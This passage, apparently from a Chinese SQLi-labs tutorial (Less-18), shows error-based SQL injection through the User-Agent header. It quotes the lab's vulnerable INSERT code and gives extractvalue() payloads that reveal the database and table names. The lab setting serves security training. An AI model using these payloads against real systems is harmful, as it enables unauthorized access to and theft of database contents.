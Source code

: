 服务器端未报错！

由此可以判断，目标网站在POST参数处存在字符型注入点。

注：如果在服务器端（靶机）上查看Less-18的php代码，会发现其中存在这样一段代码：

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

使用以下payload获取网站当前所在数据库的库名：

```
User-Agent:Mozilla/5.0......Firefox/46.0' and extractvalue(1,concat('~',database())),'','')#
```

显示结果为security。

使用以下payload获取数据库security的全部表名：

```
User-Agent:Mozilla/5.0......Firefox/46.0' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security'))),'','')#
```

以下步骤同之前类似。

